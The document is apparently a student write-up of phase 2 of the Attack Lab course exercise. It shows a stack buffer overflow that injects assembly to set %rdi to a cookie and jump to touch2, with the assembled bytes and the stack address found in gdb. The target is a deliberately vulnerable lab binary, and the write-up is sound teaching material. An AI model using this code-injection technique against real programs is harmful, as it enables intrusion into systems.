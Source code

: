 Dump of assembler code for function `touch2`:

```c++
   0x004017ec <+0>:     sub    $0x8,%rsp
   // ....
```

It is clear that we should not only change the return address, but also change the value of `val`(%rdi), to match the `cookie`(0x59b997fa)

How could we change the value of `%rdi`? we can inject `movq $0x59b997fa %rdi` instruction to the buffer.

Here are all of the instructions we need:

```c
movq    $0x59b997fa, %rdi       // move cookie to rdi
pushq   $0x4017ec               // push the touch2 address to the stack
ret                             // pop the stack and jump to the address
```

Saved it in `phase_2_inject.s` then `gcc -c phase_2_inject.s`

Finally `objdump -d phase_2_inject.o` we get the codes

```c
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   68 ec 17 40 00          pushq  $0x4017ec
c:   c3                      retq 
```

We also need to make sure the codes above can be executed. How could we do that?

Considering the stack:

```c
| return address |    // return address of after calling `get_buf`
|     0x28       |   
|     0x20       |
|     0x18       |   
|     0x10       |   
|     0x08       |
|     0x00       |    // %rsp
```

We can put our codes to `%rsp` and then make the `return address` pointing to that `%rsp`, like this:

```c
|  return: %rsp  |    // return address of after calling `get_buf`
|     ....       |   
|     ....       |
|     ....       |   
|     ret        |   
|     pushq      |
|     move       |    // %rsp
```

How to get the address of `%rsp`? Using **gdb**, `stepi` to `4017a8:  48 83 ec 28            sub    $0x28,%rsp`, then `p $rsp` and we get `0x5561dc78`

